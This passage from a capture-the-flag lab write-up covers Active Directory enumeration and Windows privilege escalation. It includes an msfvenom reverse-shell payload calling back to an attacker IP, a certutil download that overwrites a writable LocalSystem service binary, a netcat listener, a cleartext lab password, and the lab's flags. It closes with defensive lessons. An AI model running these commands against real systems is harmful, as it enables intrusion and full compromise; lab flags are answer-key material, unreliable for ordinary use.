ldapsearch -x -H ldap://10.49.178.215 -D "bitbucket@LAB.ENTERPRISE.THM" -w "$pass" -b "DC=LAB,DC=ENTERPRISE,DC=THM" "(sAMAccountName=replication)"
```

```ldif
dn: CN=REPLICATION,OU=Service Accounts,OU=Staff,DC=LAB,DC=ENTERPRISE,DC=THM
cn: REPLICATION
displayName: REPLICATION
memberOf: CN=sensitive-account,CN=Builtin,DC=LAB,DC=ENTERPRISE,DC=THM
sAMAccountName: replication
userPrincipalName: replication@LAB.ENTERPRISE.THM
```

However, when testing the recovered password against SMB using NetExec, authentication failed with `STATUS_LOGON_FAILURE`.

```bash
nxc smb $ip -u 'REPLICATION' -p '101RepAdmin123!!'
```

```
SMB         10.49.178.215   445    LAB-DC           [-] LAB.ENTERPRISE.THM\REPLICATION:101RepAdmin123!! STATUS_LOGON_FAILURE 
```

The password had either expired, rotated, or been revoked.... GOD DAYMMMM THOSE RABBITHOLES FAHHH 🥀

---

## Privilege Escalation

### Service Enumeration

Back inside my RDP session, I pivoted away from domain-level escalation to inspect local Windows services.

```powershell
powershell -ep bypass
Get-Service | Select-Object Name,Status,ServiceName,DisplayName,StartType
```

Scanning down the list revealed a non-standard service.

```
Name        : zerotieroneservice
Status      : Stopped
ServiceName : zerotieroneservice
DisplayName : zerotieroneservice
StartType   : Automatic
```

The `zerotieroneservice` was stopped, had its start type configured as `Automatic`, and pointed to a third-party application folder. I examined the service configuration using `sc qc`.

```cmd
C:\>sc qc zerotieroneservice
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: zerotieroneservice
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : zerotieroneservice
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

The service runs with `LocalSystem` privileges.

### Insecure Service Binary Permissions

I inspected the Access Control Lists (ACLs) on the service executable `ZeroTier One.exe` using `icacls`.

```cmd
C:\Program Files (x86)\Zero Tier\Zero Tier One>icacls "ZeroTier One.exe"
```

```
ZeroTier One.exe BUILTIN\Users:(I)(W)
                 NT AUTHORITY\SYSTEM:(I)(F)
                 BUILTIN\Administrators:(I)(F)
                 BUILTIN\Users:(I)(RX)
                 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                 APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```



The permissions list `BUILTIN\Users:(I)(W)`. Any unprivileged local user, including my `bitbucket` account, possesses write permission directly to the service binary.

### Binary Replacement Exploitation

I generated a 64-bit Windows reverse shell payload using `msfvenom` on Kali Linux.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.136.236 LPORT=4444 -f exe -o ZeroTier_One.exe
```

I hosted the payload using Python's built-in HTTP server.

```bash
python3 -m http.server 8000
```

Inside the Windows RDP terminal, I downloaded my malicious binary and overwrote the original `ZeroTier One.exe` using `certutil`.

```cmd
C:\Program Files (x86)\Zero Tier\Zero Tier One>certutil -urlcache -f http://192.168.136.236:8000/ZeroTier_One.exe "C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe"
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\Program Files (x86)\Zero Tier\Zero Tier One>dir
 11/04/2026  09:50 AM             7,680 ZeroTier One.exe
```

---

## Root

### Triggering the Service

I started a Netcat listener on my attack machine on port 4444.

```bash
nc -lvnp 4444
```

Then, I started the `zerotieroneservice` service from the Windows command line.

```cmd
C:\Program Files (x86)\Zero Tier\Zero Tier One>net start zerotieroneservice
```

My listener caught the incoming shell immediately, providing execution under `nt authority\system`.

```cmd
listening on [any] 4444 ...
connect to [192.168.136.236] from (UNKNOWN) [10.49.178.215] 51003
Microsoft Windows [Version 10.0.17763.1817]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
THM{1a1fa94875421296331f145971ca4881}
```



The machine is fully compromised.
btw the user flag is "THM{ed882d02b34246536ef7da79062bef36}" it is located at bitbucket desktop 🥀

---

## Lessons Learned

1. **Weak Service Account Passwords & Kerberoasting**: The `bitbucket` service account was registered with an SPN and configured with weak RC4 encryption (etype 23) alongside an easily guessable password. Service accounts should use long, randomly generated passwords and enforce AES-256 Kerberos encryption.
2. **Insecure File Permissions on Installed Software**: The ZeroTier One service executable inherited or was explicitly assigned write permissions (`W`) for `BUILTIN\Users`. Program Files directories should restrict write access strictly to `SYSTEM` and `Administrators`.
3. **Sensitive Data in Shell History Files**: The system administrator hardcoded credentials directly into the PowerShell command history (`Consolehost_hisory.txt`). Administrative credentials should never be echoed or scripted in plain text where lower-privileged users might read them.
4. **Least Privilege for Service Accounts**: Service accounts that only require specific application duties should never be granted interactive RDP permissions (`Remote Desktop Users`).

---

## Tools & References

| Tool | Purpose |
|---|---|
| **Nmap** | Network port scanning and service detection |
| **NetExec (nxc)** | SMB share enumeration, RID cycling, Kerberoast detection, WinRM/RDP credential verification |
| **Impacket (`GetUserSPNs.py`)** | Requesting Kerberos service tickets for offline cracking |
| **Hashcat** | Offline password recovery (Mode 13100 for Kerberos 5 TGS-REP etype 23, Mode 9600 for MS Office 2013) |
| **FreeRDP (`xfreerdp`)** | Remote Desktop Protocol access to Windows host |
| **BloodHound** | Active Directory permissions graph analysis |
| **msfvenom** | Generating Windows x64 reverse shell payload |
| **Certutil** | Transferring binaries to Windows target |

### References

- [Kerberoasting - HackTricks](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/kerberoast.html)
- [Privilege Escalation via Windows Services - HackTricks](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#services)
